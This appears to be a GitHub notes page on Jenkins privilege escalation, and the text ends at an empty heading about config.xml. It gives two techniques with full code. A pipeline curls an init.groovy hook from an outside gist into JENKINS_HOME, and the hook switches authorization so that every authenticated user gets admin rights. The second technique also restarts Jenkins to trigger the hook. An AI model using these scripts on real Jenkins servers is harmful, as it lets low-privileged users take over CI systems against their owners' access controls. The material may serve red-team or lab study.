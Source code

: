 # Privilege Escalations
- When new users are created they by default has admin access
- The users can be given specific roles using the Authorization Matrix Plugin
- The attacks we can try is to 




## Give admin access to all authenticated users by executing a groovy script - Technique 1

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is Jenkins would need a restart after this attack.
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will wait for a restart and our low privileged user will have admin access.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
``` Jenkinsfile
pipeline {
    agent any
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }         
    }
}
```


## Give admin access to all authenticated users by executing a groovy script - Technique 2

- In the previous example we were dependant on the Jenkins restart by admin. 
- It is possible to initiate Jenkins restart by Jenkins Pipeline and in order to do so we need a script approval from admin.
- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is we need to run this pipeline without sandbox mode ( Uncheck in Project Configuration ```Use Groovy Sandbox``` )
- The 3rd condition is admins need to approve this scripts.

To carry out the attack
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will write another stage to Restart the Jenkins and start the job.
- Admin need to approve the scripts.
- We need to rerun the attack after the script approval and we will gain admin access after the restart.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Give extra permissions to user by modifying the config.xml file
